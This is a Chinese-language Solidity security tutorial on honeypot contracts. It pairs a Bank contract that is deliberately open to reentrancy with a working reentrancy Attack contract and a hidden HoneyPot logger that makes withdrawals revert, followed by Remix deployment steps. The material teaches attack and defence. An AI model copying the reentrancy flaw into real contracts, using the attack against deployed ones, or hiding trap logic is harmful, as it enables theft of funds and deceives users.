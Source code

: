 # 75.Honeypot
Honeypot是一种用来捕捉黑客的陷阱。

## 漏洞
通过结合两个漏洞，重新进入攻击和隐藏恶意代码，我们可以构建一个合约来捕获恶意用户。


Bank 是一个调用 Logger 记录事件的合约。
Bank.withdraw() 存在重新进入攻击漏洞。
所以黑客试图从 Bank 中取走以太币。
但实际上，重新进入攻击漏洞是用来引诱黑客的。
通过在 Logger 的位置上放置 HoneyPot 并部署 Bank，这个合约就成为了黑客的陷阱。让我们看看发生了什么。

1. Alice 部署 HoneyPot
2. Alice 部署 Bank，并将 HoneyPot 的地址传递给它
3. Alice 往 Bank 中存入 1 个以太币。
4. Eve 发现 Bank.withdraw 中的重新进入攻击漏洞，并决定攻击它。
5. Eve 部署 Attack，并将 Bank 的地址传递给它
6. Eve 调用 Attack.attack()，但交易失败了。

发生了什么？
Eve 调用 Attack.attack()，并开始从 Bank 中提取以太币。
当最后一个 Bank.withdraw() 即将完成时，它调用 logger.log()。
logger.log() 调用 HoneyPot.log() 并抛出异常。交易失败了。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Bank {
    mapping(address => uint) public balances;
    Logger logger;

    constructor(Logger _logger) {
        logger = Logger(_logger);
    }

    function deposit() public payable {
        balances[msg.sender] += msg.value;
        logger.log(msg.sender, msg.value, "Deposit");
    }

    function withdraw(uint _amount) public {
        require(_amount <= balances[msg.sender], "Insufficient funds");

        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] -= _amount;

        logger.log(msg.sender, _amount, "Withdraw");
    }
}

contract Logger {
    event Log(address caller, uint amount, string action);

    function log(address _caller, uint _amount, string memory _action) public {
        emit Log(_caller, _amount, _action);
    }
}
```
黑客试图通过重入攻击来耗尽存储在银行中的以太币。
```solidity
contract Attack {
    Bank bank;

    constructor(Bank _bank) {
        bank = Bank(_bank);
    }

    fallback() external payable {
        if (address(bank).balance >= 1 ether) {
            bank.withdraw(1 ether);
        }
    }

    function attack() public payable {
        bank.deposit{value: 1 ether}();
        bank.withdraw(1 ether);
    }

    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
让我们假设这段代码在一个单独的文件中，这样其他人就无法读取它。
```solidity
contract HoneyPot {
    function log(address _caller, uint _amount, string memory _action) public {
        if (equal(_action, "Withdraw")) {
            revert("It's a trap");
        }
    }

    // 使用keccak256比较字符串的函数
    function equal(string memory _a, string memory _b) public pure returns (bool) {
        return keccak256(abi.encode(_a)) == keccak256(abi.encode(_b));
    }
}
```

## remix验证
1. 部署 HoneyPot合约
![75-1.jpg](./img/75-1.jpg)
2. 部署 Bank合约传入HoneyPot合约地址。并调用deposit函数存入1 eth
![75-2.jpg](./img/75-2.jpg)
3. 部署Attack合约传入Bank合约地址。调用attack()函数攻击
![75-3.jpg](./img/75-3.jpg)